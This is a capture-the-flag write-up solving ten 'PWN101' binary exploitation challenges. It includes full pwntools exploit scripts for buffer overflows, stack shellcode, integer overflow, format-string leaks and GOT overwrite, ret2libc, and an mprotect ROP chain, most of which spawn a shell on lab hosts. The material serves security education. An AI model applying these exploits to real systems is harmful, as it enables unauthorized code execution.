# PWN101

### Challenge 1
- The binary asks us what are the ingridents to make biriyani, based on our response it gives us a result.


- checksec on the binary, we can see that there are no canaries, so overflow can be done.


- As the binary is not stripped so we can see the code logic easily. When checking the main function we can see its checking if preset_value is 1337 if its not so we get shell.\
So the objective is to rewrite preset_value to something other than 1337. And we can also see that the size of the buffer.


- Entering more characters than the input_buffer accepts will overwrite the preset_value.


### Challenge 2
- Interacting with the binary


- Checksec on the binary


- As we can see the binary is not stripped so we can see the logic without any problem. When inspecting the main logic we can see that two variables are assigned with some inital values, and then these are being comapred with other values, if these values matches then we get out shell.


- This time user provided input is acquired using scanf() , which won't check the length of the string stored in var_70h.\
There are no canaries so we can use Buffer Overflow which can overwrite the variables.\
So we first need to write some dummy values so that we can reach the first variable, then 4 bytes (as the comparison happens in double word) in variable and next 4 bytes in the other variable.

- So the question is how many bytes do we pad before we actually reach the variable we need to overwrite. This is not that tough with general math we can do.
```
we know that we start writing at rbp - 0x70
and we write till rbp - 0x8,
in hex when we subtract this we get: 68 in hex, which is 104 in decimal
```
**Exploit**
```python
from pwn import *

context.binary = binary = './pwn102-1644307392479.pwn102'

# p32(0xc0ff33) = \x33\xff\xc0\x00 = this will convert to little endian and 4 bytes format
payload = b"A" * 0x68 + p32(0xc0d3) + p32(0xc0ff33)

# p = process()
p = remote("10.49.132.154", 9002)
p.recv()
p.sendline(payload)
p.interactive()
```

### Challenge 3
- Checksec and file info on the binary.



- Our input area and place to break the program.



- When we provide 5 for the bot commands we get the root prompt but it doesn't accepts anything, it's a fake prompt.

- As we know the vulnerability exists in the general functon, when the decompiled code was checked we can see that in the general function scanf is used to take input from the user and the input is taken in string format, so our input can be as long as we want it to be.



- In this part of the check we can see that if the input provided by us is `yes` then we get a `GG 😄` from the program and the program returns to main otherwise we get `Try harder!!! 💪` and the program quits.

- While examining we can see one function which is for admins only and it executes `system(line: "/bin/sh")`.\
Our goal is to reach this function from the general function. But how can we do this as there are no cross references to this function that is this is not being called by any other function.



- We are going to perform `Execution Flow Hijacking`. So what we'll do is using scanf we'll write from `rbp - 0x20` till the return of the general function and from there make it returns to admins_only instead of the general execution.

- Admins_only address can be found using objdump.



```python
from pwn import *
context.binary = binary = ELF('./pwn103-1644300337872.pwn103')

# p = process()
p = remote("10.49.141.172", 9003)
p.sendline(b"3")

ret_address = p64(0x401016) # address of a 'ret' instruction - needed for stack alignment. can be found using objdump

admins_only_address = p64(binary.symbols.admins_only)

# paylaod = padding to reach rbp + padding to override rbp + itself
# once we are done above then we have reached the returns address and we overwrite it with admins_only_address
 
paylaod = b"A"*0x20 + b"B"*0x8 + ret_address + admins_only_address

p.sendline(paylaod)
p.interactive()
```

- A good reference to read about the [stack allignment](https://ropemporium.com/guide.html).



### Challenge 4
- Checksec and file info on the binary.



- Finding fault by running the binary and providing a big input



- One thing to note here is that the address that is being printed when we execute the binary is random, that is it changes each time when we execute the binary.\
But the initials remains the same, this is a stack location, and the change each time that happens is because of **Address Space Layout Randomization(ASLR)**.

- In the main function we can see that there is a mistake made by the programmer that is they have allocated a buffer of size 80 bytes and in the read method they are allowing for 200 bytes to be written.



- In the original code there is no function from which we can spawn a shell, so like the previous challenge we cannot overwrite and jump to its address. So what can we do with this.

- The binary doesn't have any protection that stops us from executing our code on stack `NX: Disabled`, and the data that is being saved in the stack is the instruction that we provide.\
So our goal is to provide instructions in byte form and execute those instructions.

Now we have two things that we need to ask
- What shellcode to execute?
- How to execute this shellcode?

- From the main function we can see that the base of the buffer is being printed with `%p` format specifier. `%p` means the pointer address in cpp.

```python
from pwn import *

context.binary = binary = "./pwn104-1644300377109.pwn104"
context.log_level = "debug"

shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

# p = process()
p = remote("10.48.185.143", 9004)
p.recvuntil(b'at ')
addr = p.recvline()
buffer_location = p64(int(addr, 16))


# shellcode + padding the rest with A so that we reach rbp + overwrite rbp + address of our shellcode
payload = shellcode + b"A"*(0x50 - len(shellcode)) + b"B"*0x8 + buffer_location

p.sendline(payload)
p.interactive()
```

### Challenge 5
- Interacting with binary



- Checksec on binary



- Main function after decompiling the binary.



- From the image we can see that we want to reach the else if case if we want to execute the "/bin/sh". This case is reached when the addition of both the inputs is less than 0.\
From first if case we can see that if either of the number is negative then the program will print `[o.O] Hmmm... that was a Good try!` and exit.\
So how can add two positive integers and then get a negative result. This is possible based on how the CPU interprets the number that we have provided.

- Here we are going to use the `Signed Integer Overflow` vulnerability, when we are dealing with signed integers which we are in this case, we need to see how they are represented in memory.\
When we have a negative number it will be represented using `2's complement` in memory. What happens in Signed Integer Overflow let's try to understand it using an example.

```
lets say we are dealing with an 8 bit signed numbers
the max that we can represent in 8 bit is 0111 1111: 127
And now we want to add 1 to this number.
As we are dealing with 8 bit numbers we cannot represent 128 here so the result of this addition will be -128
What happened is the leftmost bit is turned on when we added 1 to the 0111 1111
```


- So the idea is to add the max number that we can represent in 32 bit signed integer with 1, this will overflow and the result will be a negative number, and we'll get the shell.



```python
from pwn import *

binary = context.binary = ELF("./pwn105-1644300421555.pwn105", checksec=False)

if args.REMOTE:
    p = remote("", 9005)
else:
    p = process(binary.path)

p.sendlineafter(b"]>>", b"2147483647")
p.sendlineafter(b"]>>", b"1")
p.interactive()
```
### Challenge 6
- Checksec and file info on the binary.



- Interacting with the binary to see what happens



- Checking if format string vuln is possible



- What we can see from the main function is that whatever we pass in as input is being taken by the read function and being added to the format portion. Which later is printed without any specific format specifier.\
We care about the flag redacted part which is there, so our objective is to leak it's memory

```pythonfrom pwn import *

context.binary = binary = "./pwn106-user-1644300441063.pwn106-user"

# we ran inital payload with multiple %lX and then got the start byte from there
# then as per code the flag is partitioned in 4 parts comparing it with the result that
# we got in that the flag ends at 9

# what we get is all hex and this all stuff is in little endian so we have to convert
payload = "%6$lX.%7$lX.%8$lX.%9$lX.%10$lX.%11$lX"

p = process()
p = remote("10.49.128.88", 9006)

p.recv()
p.sendline(payload)
words = p.recv().strip().split(b" ")[1].split(b".")
flag = ""

for word in words:
    flag += bytes.fromhex(word.decode("utf-8"))[::-1].decode("utf-8")
    
print("The flag is: {}".format(flag))
```

### Challenge 7
- Checksec and file info on the binary.



- Interacting with the binary.



- Checking how the binary responds with long inputs and checking if it's vulnerable to format string



- In the main function we can see that at first we can see a read call which takes 20 bytes and stores it in the format buffer. And this buffer is at `rbp - 0x40` so we cannot overflow it.\
Later that we have one printf call which is printing from the format buffer without any specific format.\
After that we have another read call which takes upto `0x200` and this is being written into buf which is at `rbp - 0x20`. So here we can overflow and hijack the execution flow. At the last we have canary check.





- We know that we can perform buffer overflow but stack canary stops us from doing so, as we have a format string vulnerability as well so we plan to leak the actual value of that canary and when we are overwriting and we reach at `rbp - 0x8` then we just replace canary with its original value.\
This way the stack check won't fail and we will still be able to hijack the execution call.

- For hijacking there is one function in this binary named `get_streak()` it executes `/bin/sh` with system but it has no reference to it.\
But again we can't just provide the address of this function in this as PIE is enabled.



- When binary is compiled with PIE enabled the addresses of the text segment of the binary (code present) change with every single execution, it gets randomized.

- One thing to not is that the base address will change for the binary but the offsets remains same, so if we can somehow get the dynamic base address then we can to desired function.

### Challenge 8
- Checksec and file info on the binary. It's a 64 bit binary, in 64 bit executables the 6 first parameters of the functions are passed via registers and rest via the stack.\
We can see that canary is present and NX is also enabled. PIE is disabled so the address of execution won't change between execution.



- Interacting with the binary. The binary takes two inputs and then prints out some data. Even when we provide a long input to the binary it doesn't break and it takes only a small amount of the input. So the execution flow we cannot hijack because of this.



- Checking if the binary is vulnerable to format string vulnerability.



- Examining the main function we can see that, we cannot hijack the flow by overwriting, we have two places we are asked to give inputs, first being `18(0x12)` bytes while we are writing at `rbp - 0x98` so with just 18 bytes we cannot hijack this area.\
Same goes for the second input we are writing `100(0x64)` bytes we are writing at `rbp - 0x78`




- While examining other functions present in the binary we can see a function named `holidays`, this function makes some print calls and then it calls `system` with `/bin/sh`.




#### Approach
The idea is that we have to use **format string vulnerability** to perform the **execution flow hijacking**. We have to hijack the execution flow to execute the **holiday** function.

There is a format specifier `%n` that allows us to write the number of bytes printed so far into the memory. Comedy is that it overwrites memory with a function which is used to print data.



As we want to execute the holidays function we want to write its address but the question is where to write this address so that its picked for execution.\
We saw at the starting that the `Partial Relro` is present this allows us to overwrite `.got` entries. But which address do we actually overwrite in the `.got`, this address has to be the address that comes after the vulnerability.\
We can see that there are **puts** and **printf** function only, we cannot overwrite the printf one as this is also used in the holidays function. So we are going to overwrite the puts entry in the `.got`.

Lets understand how to abuse the `%n` specifier.
- The first thing when we have format string vuln is finding out at what position from printf perspective our input resides. So doing so we take a recognizable string and then use multiple specifiers till we reach that string.\
Easy identifiable string `ABCD` we can see as `41424344`. So our input lives at 10th position from printf perspective.



- The first read is reading 0x12 bytes so we initally provide with these many junk values.
- The `%n` format specifier also writes an integer 4 bytes by default, that means it will overwrite only 4 bytes. So how do we overwrite the whole value in the `.got`, we do this by writing two bytes up and then the normal ones. Overwrite got entry for puts function starting address + 2, so from a specific bytes till 4 more bytes

Debugging to check if overwrite is happening or not


```
0x40123b being the address of the holidays function
1st write -> (0x40) 64
2nd write -> (0x123b) - 64 = 4603

payload = b"%64X%13$n" + b"%4603X%14$hnAAA" + p64(got_puts_address + 2) + p64(got_puts_address)

AAA is added as padding for the memory cells
we already know that our relative position is 10 from printf
%64X%13$: 10th cell
n%4603X%: 11th cell
14$hnAAA: 12th cell
p64(got_puts_address + 2): 13th cell
p64(got_puts_address): 14th cell
```

```python
from pwn import *

binary = context.binary = ELF("./pwn108-1644300489260.pwn108", checksec=False)
got_puts_address = binary.got.puts
junk_payload = b"A" * 0x12


'''
1st write -> (0x40) 64
2nd write -> (0x123b) - 64 - 4603
'''
payload = b"%64X%13$n" + b"%4603X%14$hnAAA" + p64(got_puts_address + 2) + p64(got_puts_address)

# p = process()
p = remote("10.48.185.165", 9008)
p.send(junk_payload)
p.send(payload)
p.interactive()
```

- Running exploit local and remote





### Challenge 9
In this challenge we explore `ret2libc` attack.

- Checksec and file info on the binary



- Interacting with the binary



- Main function of the binary, here we can observe that gets is being used which is a vulnerable function.\
With this we can overflow the stack and hijack the execution flow.



- Now the question is what we want to do after hijacking the execution flow, which functions address should we overwrite with the main address with.\
As there isn't any interesting function present in the binary.

- The goal of `ret2libc` attack is to leak the addresses from `.got` of standard C library(libc).\
So how can we leak the addresses from `.got` that is by jumping to `.plt`.

- When we perform `ret2libc` we call `puts` and pass in the positions of the functions in `got` which are already loaded/dynamically resolved to get their address from library

- When the binary calls the imported function lets say puts it will call to its entry in the `plt` and the plt will `invoke dynamic linker` in case the entry of the function puts in `got` has not been resolved yet

- So we are going to use the gets function to overwrite the address of main and we will jump to puts.\
As this is binary is not compiled with `PIC` the addresses for the puts and other functions in the got will not change.\
Only the value changes once the resolution is done but not the address.

- Once this is done and we have printed the libc address and got the version of libc being used, after this we will jump back to main.\
Now that we have the version of the libc we can get the offset to functions like `system` or `execve` and pass `/bin/sh` for getting shell.

**A two stage exploit**
- first leaking addresses from got
- then come back to main and then jump to system/execve

- As we are using puts which takes in a single input that is the string that it will print.\
Based on the 64 bit binary calling convention the parametes are passed using registers. The first that is used is `RDI`, so we have to look for gadgets in binary so that we can modify the `RDI` register before jumping the plt entry of puts function.

```sh
ROPgadget --binary pwn109-1644300507645.pwn109 --depth 12 > 109_gadgets.txt

# rdi instruction we are going to use
0x00000000004012a3 : pop rdi ; ret
```

- Now we call the puts function, we do it the same way binary does, that is jump to the address as the binary is not compiled with PIC.\
Similar can be done with other address of got as well.




- Now the question is how can we get the version of the libc with the addresses that we are printing in the first phase.\
When running the exploit multiple times we can see that the first 2 and last 3 nibbles of each address is the same, regardless of the randomization introduced by ASLR.\
ASLR only randomizes a portion of the address not the complete.



- This is what allows us to discover the libc version the system is using. As each version of libc has its own offsets of its functions, these offsets are represented by the last 3 nibbles.\
This we can do using libc database search.



- With the same tool we can also get the offset of other functions present in that version of libc.



```
Relative to leaked_gets_address
system -0x316e0
str_bin_sh 0x130c4d
```

```python
from pwn import *

context.binary = binary = ELF("./pwn109-1644300507645.pwn109", checksec=False)

'''
0x00000000004012a3 : pop rdi ; ret
0x000000000040101a : ret
'''

# stage 1 leaking the addresses of function after dynamic reslolution
pop_rdi_ret = p64(0x00000000004012a3)
ret = p64(0x000000000040101a)

main_addr = p64(binary.symbols.main)
plt_puts_addr = p64(binary.plt.puts)
got_puts_addr = p64(binary.got.puts)
got_gets_addr = p64(binary.got.gets)
got_setvbuf_addr = p64(binary.got.setvbuf)

payload = b"A" * 0x20
payload += b"B" * 0x8
payload += pop_rdi_ret + got_puts_addr + plt_puts_addr
payload += pop_rdi_ret + got_gets_addr + plt_puts_addr
payload += pop_rdi_ret + got_setvbuf_addr + plt_puts_addr
payload += main_addr

p = remote("10.48.146.155", 9009)
#p = process()
p.recvuntil(b"ahead")
p.recv() # emoji
p.sendline(payload)
res = p.recv().split(b"\n")

leaked_puts_addr = u64(res[0].ljust(8, b"\x00"))
leaked_gets_addr = u64(res[1].ljust(8, b"\x00"))
leaked_setvbuf_addr = u64(res[2].ljust(8, b"\x00"))

print("Leaked puts address : {}".format(str(hex(leaked_puts_addr))))
print("Leaked gets address : {}".format(str(hex(leaked_gets_addr))))
print("Leaked setvbuf address : {}".format(str(hex(leaked_setvbuf_addr))))

# libc search reveals the version of libc being unsigned
# second stage, going back to main and spawing shell when vulnerable gets is executed

'''
Relative to leaked_gets_address
system -0x316e0
str_bin_sh 0x130c4d
'''
payload = b"A" * 0x20
payload += b"B" * 0x8
payload += ret + pop_rdi_ret + p64(leaked_gets_addr + 0x130c4d)
payload += p64(leaked_gets_addr - 0x316e0)

p.sendline(payload)
p.interactive()
```

### Challenge 10

- Checksec and file info on the binary.



- Interacting with the binary



- In the main we can see that it uses gets function, which is vulnerable to buffer overflow attacks.\
Another thing that we can not is that there is not canary check at the end even when the binary is compiled with them. So we can hijack the flow by overwriting the return address of main



- While checking the functions that are present in the binary we came across `_dl_make_stack_executable`.\
In this we can see mprotect is there which is used to change `permission` of `specific memory pages`.\
But this function is never called anywhere in the binary.

```
registers in which the value will go as the binary is 64-bit
            RDI   RSI      RDX
__mprotect (addr, len, protection)
```



- We can find the pagesize using the `getconf` utility. The command is `getconf PAGESIZE` this results in 4096.

- While examining the binary we came across an object named `__libc_stack_end`, this identifies the end of the stack.\
As we are now performing static analysis currently its value is 0. We will try to leak its value during runtime and change the protection of the stack.\
So by now we have resolved three parameters.
```
protection: 0x7
len: 0x1000 (4096)
addr: 0x004bfa70 (__libc_stack_end)
```



- As we have everything built inside the binary we will use puts function for printing the value of `__libc_stack_end`.

- Now we have to check if we have the required gadgets.\
A gadget is a small snippet of assembly code already present in a program’s binary or linked libraries that ends with a ret (return) instruction.\
By overwriting return addresses with the memory addresses of these gadgets, we create a "ROP chain" where the ret instruction at the end of one gadget jumps to the next, enabling complex arbitrary code execution.\
We can look for these gadgets using `ROPgadget --binary pwn110-1644300525386.pwn110 --depth 12 > gadgets.txt`.



- We also need gadgets which we can use for modifying `rsi` and `rdx`, for executing `__mprotect`.

```
0x000000000040f4de : pop rsi ; ret
0x000000000040181f : pop rdx ; ret
0x0000000000463c43 : jmp rsp
0x000000000040101a : ret
```

#### Approach
- We hijack the execution flow using the `gets` function persent in main.
- With the hijack we'll make the execution go through the `puts` function which will leak the value of `__libc_stack_end`.
- Once we are able to leak the stack end address, we need to find the begining address of page memory that contains the address we leaked.
```
For example end of stack:
0x7ffc4ee6fc28
we know page size is: 0x1000
--------------
0x7FFC4EE6F000

this is done using bitwise AND between the stack address and negating (page size - 1)
```
- After this we look for gadgets for the `__mprotect` call.
- Once we have all this we can place a shellcode in the stack, but also we need to make sure we can execute it, so redirect the rip to the shellcode.\
For this too we'll look for gadgets `jmp rsp`
- What happens here is we increment the `jmp rsp` instruction to the part where we have shellcode.\
When the ret of the mprotect function happens the rip will point to the `jmp rsp` which we have already incremented to our shellcode, and hence our shellcode gets executed next.

```python
from pwn import *

'''
gets writes @rbp-0x20
protection: 0x7
len: 0x1000 (4096)
addr: 0x004bfa70 (__libc_stack_end)

0x000000000040191a : pop rdi ; ret
0x000000000040f4de : pop rsi ; ret
0x000000000040181f : pop rdx ; ret
0x0000000000463c43 : jmp rsp
0x000000000040101a : ret
'''

context.binary = binary = ELF("./pwn110-1644300525386.pwn110", checksec=False)

pop_rdi_ret = p64(0x000000000040191a)
pop_rsi_ret = p64(0x000000000040f4de)
pop_rdx_ret = p64(0x000000000040181f)
ret = p64(0x000000000040101a)
jmp_rsp = p64(0x0000000000463c43)
libc_stack_end = p64(binary.symbols.__libc_stack_end)
main = p64(binary.symbols.main)
puts = p64(binary.symbols._IO_puts)
mprotect = p64(binary.symbols.mprotect)

## 1st stage, this will allow us to leak the stack address and call main again
# p = process()
p = remote("", 9010)
p.recvuntil(b"libc")
p.recv()

# reach rbp + overwrite rbp
padding = b"A" * 0x20 + b"B" * 0x8

payload = padding
payload += pop_rdi_ret
payload += libc_stack_end
payload += puts
payload += main

p.sendline(payload)

# parse the stack address, we recv, then split at the newline
# take the first value and left justify(padding to right) it when to make 8 bits
stack_end_addr = p.recv().split(b"\n")[0].ljust(8,b"\x00")
print(f"End of stack address is: {hex(u64(stack_end_addr))}")

stack_alligned_addr = u64(stack_end_addr) & ~0xfff
print(f"Alligned stack address is: {hex(stack_alligned_addr)}")

# 2nd stage
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"

payload = padding + ret
payload += pop_rdi_ret + p64(stack_alligned_addr) # page boundary alligned address
payload += pop_rsi_ret + p64(0x1000) # page size
payload += pop_rdx_ret + p64(0x7) # stack executable
payload += mprotect
payload += jmp_rsp + shellcode

p.sendline(payload)
p.interactive()
```

- Exploiting local and remote




